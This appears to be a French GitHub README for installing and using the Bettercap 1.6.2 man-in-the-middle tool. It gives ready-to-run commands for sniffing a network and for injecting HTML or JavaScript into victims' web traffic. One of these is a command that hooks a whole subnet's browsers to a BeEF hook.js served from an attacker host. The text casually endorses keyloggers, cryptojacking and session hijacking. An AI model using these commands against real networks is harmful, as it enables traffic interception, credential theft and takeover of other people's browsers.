 # :heavy_check_mark: Bettercap 1.6.2
![alt text](https://www.bettercap.org/logo.png) </p>
Bettercap est un outils MITM multifonction, exemple : sniffing, injection ... </p>
:heavy_exclamation_mark: Cependant, sniffer un réseau qui n'est pas le votre est illégal. </p>
Dépendances à satisfaire => <b> ```apt-get install ruby libpcap-dev ruby-colorize ruby-em-proxy ruby-net-dns ruby-network-interface ruby-packetfu ruby-packetfu ```</b> </p>
Pour télécharger :<b> ```git clone https://github.com/hurikayne/bettercap_1.6.2-0parrot1_all``` </b> </p>
:heavy_check_mark: install => <b>```dpkg -i bettercap_1.6.2-0parrot1_all.deb```</b> </p>
Bettercap 1.6.2 est une ancienne version de Bettercap, la 1.6.2 est plus simple. </p> Or à chaque "<b>```apt-get update```</b>" le paquet se mettera à jour, mais nous ne voulons pas cela donc pour empêcher la MAJ du paquet on lance la commande suivante : <b>```sudo apt-mark hold bettercap```</b> </p>
:heavy_check_mark: Pour sniffer un réseau (MITM): ```bettercap -X ```</p>
Pour de l'aide : <b>```bettercap -h``` </b></p>

Qu'est-ce que l'<b>injection</b> ? 
L'injection permet de placer un morceau de code non voulus par la/les victime(s), </p>exemple : injecter du html pour afficher un image à chaque page chargé par la victime, ou encore du javaScript pour injecter des keyloggers. </p>Avec JavaScript les possibilitées d'attaques sont énormes (cryptojacking :ok_hand:, session hijacking ...). 
:heavy_check_mark:</p>
Pour faire de l'injection: </p><b>```bettercap -I (INTERFACE ex:wlan0) -T (TARGET_IP) --proxy-https --httpd --proxy-module injecthtml --html-file xxxxx.html```</b>  </p>
Injection de code unique (Beef ex) :</p> <b>```sudo bettercap -I wlan0 -G 172.51.1.1 -T 172.51.0.0/23 --proxy-module injectjs --js-url "http://172.51.1.91:3000/hook.js"```</b></p>
L'utilisation de <b>Caplets</b> rend bettercap puissant. </p>


Pour plus de détails voir le site officiel : https://www.bettercap.org/  </p>



